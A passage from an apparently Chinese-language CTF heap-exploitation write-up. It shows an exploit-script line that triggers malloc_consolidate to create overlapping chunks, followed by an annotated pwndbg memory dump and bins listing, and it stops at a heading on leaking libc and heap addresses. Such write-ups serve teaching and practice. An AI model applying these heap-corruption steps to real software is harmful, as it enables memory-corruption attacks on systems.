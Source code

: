 ```
    #trigger the malloc_consolidate() to merge the fastbin.And it will make overlapped chunk.[chunk2 / chunk3 / chunk4/ chunk7]
    sla('Choice:','1'*0x500)
```

效果如下：

```
pwndbg&gt; x/50xg 0x555555757000
0x555555757000:    0x0000000000000000    0x0000000000000031
0x555555757010:    0x0000000000000000    0x0000000000000000
0x555555757020:    0x0000000000000000    0x0000000000000000
0x555555757030:    0x0000000000000000    0x0000000000000151 ---已经成功合并，形成overlapped chunk
0x555555757040:    0x00007ffff7dd1cb8    0x00007ffff7dd1cb8
0x555555757050:    0x0101010101010101    0x0101010101010101
0x555555757060:    0x0101010101010101    0x0101010101010101
0x555555757070:    0x0000000000000040    0x0000000000000020 ---overlapped chunk 2
0x555555757080:    0x0202020202020202    0x0202020202020202
0x555555757090:    0x0002020202020202    0x0000000000000041 ---overlapped chunk 3
0x5555557570a0:    0x0303030303030303    0x0303030303030303
0x5555557570b0:    0x0303030303030303    0x0303030303030303
0x5555557570c0:    0x0303030303030303    0x0303030303030303
0x5555557570d0:    0x0003030303030303    0x0000000000000041 ---overlapped chunk 4 
0x5555557570e0:    0x0000000000000000    0x0000000000000000
0x5555557570f0:    0x0000000000000000    0x0000000000000000
0x555555757100:    0x0000000000000000    0x0000000000000000
0x555555757110:    0x0000000000000000    0x0000000000000021 ---overlapped chunk 11
0x555555757120:    0x0000000000000000    0x0000000000000000
0x555555757130:    0x0000000000000000    0x0000000000000001
0x555555757140:    0x0000000000000110    0x0000000000000040
0x555555757150:    0x0000000000000000    0x0000000000000000
0x555555757160:    0x0000000000000000    0x0000000000000000
0x555555757170:    0x0000000000000000    0x0000000000000000
0x555555757180:    0x0000000000000150    0x0000000000000040
pwndbg&gt; bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
0x150: 0x555555757030 ◂— 0x7ffff7dd1cb8
largebins
empty
```

#### <a class="reference-link" name="%E6%B3%84%E9%9C%B2libc%E4%BB%A5%E5%8F%8Aheap"></a>泄露libc以及heap
